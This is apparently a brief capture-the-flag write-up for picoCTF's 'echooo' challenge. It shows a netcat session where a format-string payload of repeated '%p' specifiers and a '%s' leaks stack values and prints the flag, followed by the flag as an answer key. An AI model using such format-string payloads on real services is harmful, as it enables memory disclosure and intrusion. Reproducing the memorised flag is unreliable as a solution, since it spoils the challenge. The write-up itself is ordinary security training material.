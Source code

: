 # echooo

```
$ nc 2018shell.picoctf.com 57169
Time to learn about Format Strings!
We will evaluate any format string you give us with printf().
See if you can get the flag!
> %p %p %p %p %p %p %p %s
0x40 0xf77715a0 0x8048647 0xf77a9a74 0x1 0xf7781490 0xff970274 picoCTF{foRm4t_stRinGs_aRe_DanGer0us_e3d226b2}
```

Flag: `picoCTF{foRm4t_stRinGs_aRe_DanGer0us_e3d226b2}`